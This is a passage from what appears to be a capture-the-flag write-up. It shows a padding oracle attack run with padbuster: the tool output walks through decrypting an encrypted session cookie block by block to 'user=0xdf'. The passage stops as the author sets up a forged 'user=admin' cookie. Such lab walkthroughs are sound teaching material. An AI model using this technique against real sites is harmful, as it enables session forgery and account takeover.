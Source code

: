     Enter an ID that matches the error condition                                            
    NOTE: The ID# marked with ** is recommended :
    

In the table, 255 requests returned 15 bytes (`Invalid padding`), and one
returned 1133 bytes (likely the logged in page). So the error is ID 2. I’ll
enter that and hit enter to continue:

    
    
    Continuing test with selection 2
    
    [+] Success: (38/256) [Byte 8]              
    [+] Success: (90/256) [Byte 7]              
    [+] Success: (166/256) [Byte 6]             
    [+] Success: (166/256) [Byte 5]             
    [+] Success: (213/256) [Byte 4]             
    [+] Success: (25/256) [Byte 3]              
    [+] Success: (61/256) [Byte 2]              
    [+] Success: (173/256) [Byte 1]             
    
    Block 1 Results:                            
    [+] Cipher Text (HEX): d681fd3bd73b17a1                                                 
    [+] Intermediate Bytes (HEX): 5bc4e12e5e59a4db                                          
    [+] Plain Text: user=0xd                    
    
    Use of uninitialized value $plainTextBytes in concatenation (.) or string at /usr/bin/padbuster line 361, <STDIN> line 1.                                                        
    *** Starting Block 2 of 2 ***               
    
    [+] Success: (89/256) [Byte 8]              
    [+] Success: (238/256) [Byte 7]             
    [+] Success: (193/256) [Byte 6]             
    [+] Success: (44/256) [Byte 5]              
    [+] Success: (199/256) [Byte 4]             
    [+] Success: (4/256) [Byte 3]               
    [+] Success: (127/256) [Byte 2]             
    [+] Success: (72/256) [Byte 1]              
    
    Block 2 Results:                            
    [+] Cipher Text (HEX): 3254cadd72119dd4                                                 
    [+] Intermediate Bytes (HEX): b086fa3cd03c10a6                                          
    [+] Plain Text: f                           
    
    -------------------------------------------------------                                 
    ** Finished ***                             
    
    [+] Decrypted value (ASCII): user=0xdf      
    
    [+] Decrypted value (HEX): 757365723D3078646607070707070707                             
    
    [+] Decrypted value (Base64): dXNlcj0weGRmBwcHBwcHBw==
    
    -------------------------------------------------------  
    

It prints results for each completed block, and then a summary at the end. The
data is `user=0xdf`. Knowing what the data is, I can also provide plaintext
and it will return a valid encrypted cookie with that plaintext. I’ll add the
`-plaintext user=admin` option, and run again:
